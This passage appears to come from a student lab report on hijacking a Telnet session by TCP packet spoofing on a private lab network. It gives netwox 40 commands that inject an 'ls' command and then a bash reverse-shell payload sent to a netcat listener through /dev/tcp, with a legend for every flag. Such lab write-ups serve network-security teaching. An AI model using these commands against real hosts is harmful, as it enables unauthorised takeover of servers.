	\centering
	
\includegraphics[width=1\linewidth]{seqnum}
	\caption{Telnet Packet Details}
	\label{fig:seqnum}
\end{figure}

\begin{par}
\noindent When using \texttt{netwox 40} to spoof packets, the packet fields can be preserved. Furthermore, it is of value to note that each Telnet data packet has a window size value that is not fixed from packet to packet. Therefore, it is worth trying a large value initially to see if the attack succeeds. The data that will be injected into the packet will be the command \texttt{ls}. To do so, the packet is constructed as such.
\end{par}
	\begin{verbatim}
	# netwox 40 -g -i 0 -k 6 -G "" -E 254 -l 192.168.43.154 
	-m 192.168.43.157 -o 49895 -p 23 -q 3167875908 -r 2853610514 -z 
	-A -H "'ls'0d0a" -j 64 -a "best"
	\end{verbatim}
\begin{par}
\noindent Verbatim Code Legend:
	\begin{enumerate} \itemsep0em 
		\item \texttt{-g}: IPv4 Don't fragment (IPv4 Flag 0x2)
		\item \texttt{-i 0}: IPv4 Fragment Offset
		\item \texttt{-k 6}: IPv4 Protocol (TCP: 6)
		\item \texttt{-G ""}: TCP Options (None as it is not required)
		\item \texttt{-E 254}: TCP Window Size
		\item \texttt{-l 192.168.43.154}: Source IP
		\item \texttt{-m 192.168.43.157}: Destination IP
		\item \texttt{-o 49895}: Source Port (From Wireshark)
		\item \texttt{-p 23}: Destination Port (Telnet)
		\item \texttt{-q 3167875908}: Seqnum (Acknum from previous packet)
		\item \texttt{-r 2853610514}: Acknum (Next seqnum from previous packet) 
		\item \texttt{-z}: TCP Acknowledgement (TCP Flag 0x8)
		\item \texttt{-A}: TCP Push (TCP Flag 0x10)
		\item \texttt{-H "`ls'0d0a"}: TCP Mixed Data (Hex value 0d0a denotes \textbackslash r\textbackslash n)
		\item \texttt{-j 64}: IPv4 Time-To-Live (TTL)
		\item \texttt{-a "best"}: IP spoofing initialisation type
	\end{enumerate}
\end{par}
\vspace{1em}
\begin{par}
\noindent When the packet injection is successful, Wireshark will capture the packet as a normal TELNET packet. Looking at the data field of the Telnet packet, the mixed data that was input previously can be seen. The server will reply with the relevant data from the \texttt{ls} command. However, the server has not yet received an \texttt{ACK} signal after the injected packet has been sent, prompting TCP Retransmission packets over the network. Figure \ref{fig:netwoxinject} and \ref{fig:packetinjectret} shows the data that was sent in the spoofed IP and the abnormal behaviour when the \texttt{ACK} signal was not sent timely back to the server.\end{par}
\begin{figure}[H]
	\centering
	
\includegraphics[width=0.9\linewidth]{netwoxinject}
	\caption{Successful Injection of Arbitrary Code}
	\label{fig:netwoxinject}
\end{figure}

\begin{figure}[H]
	\centering
	
\includegraphics[width=0.9\linewidth]{packetinjectret}
	\caption{Data Return \& TCP Retransmission Packets}
	\label{fig:packetinjectret}
\end{figure}
\noindent To solve the issue of the TCP Retransmission Packets, we use \texttt{netwox 40} again with the following code instead to send an \texttt{ACK} signal only.
	\begin{verbatim}
# netwox 40 -g -i 0 -k 6 -G "" -E 254 -l 192.168.43.154 
-m 192.168.43.157 -o 49895 -p 23 -q 3167875912 -r 2853611285 -z 
-j 64 -a "best"
\end{verbatim}
\begin{par}
	\noindent Looking at Wireshark again, after the \texttt{ACK} signal has been received, the server now returns the usual Terminal prompt, waiting for the user's input. The connection can be terminated by using the TCP RST flag \texttt{-B} or by using \texttt{netwox 78} as per the previous task.
	\end{par}
\subsection{Creating Reverse Shell Using TCP Session Hijacking}
\begin{par}This task follows up on injecting arbitrary code into spoofed TCP packets by executing a reverse shell, ultimately allowing the attacker to take control of the server. To perform a reverse shell, the attacker will need to open a Terminal console to listen to an incoming connection. The following code performs the abovementioned task.\end{par}
	\begin{verbatim}
	$ nc -l 9090 -v
	\end{verbatim}
	Again, we use Wireshark to analyse the next seqnum and acknum on the Telnet Data packet. From Figure \ref{fig:telnetinjectreverse}, we obtain the relevant details of the packet and execute the command to create a reverse shell.
\begin{figure}[H]
	\centering
	
\includegraphics[width=1\linewidth]{telnetinjectreverse}
	\caption{Obtain Next seqnum \& acknum}
	\label{fig:telnetinjectreverse}
\end{figure}
\begin{verbatim}
# netwox 40 -g -i 0 -k 6 -G "" -E 254 -l 192.168.43.154 
-m 192.168.43.157 -o 49897 -p 23 -q 138267333 -r 688783074 -z -A 
-H "'/bin/bash -i > /dev/tcp/192.168.43.156/9090 0<&1 2>&1'0d0a" 
-j 64 -a "best"
\end{verbatim}
The executed command redirects the bash shell to the attacker's Terminal console and the system is now vulnerable, as can be seen in Figure \ref{fig:telnetinjectreversedone} where the \texttt{pwd} command reflects a different directory than when originally executed.
\begin{figure}[H]
	\centering
	
\includegraphics[width=0.85\linewidth]{telnetinjectreversedone}
	\caption{Reverse Shell Obtained}
	\label{fig:telnetinjectreversedone}
\end{figure}

\end{document}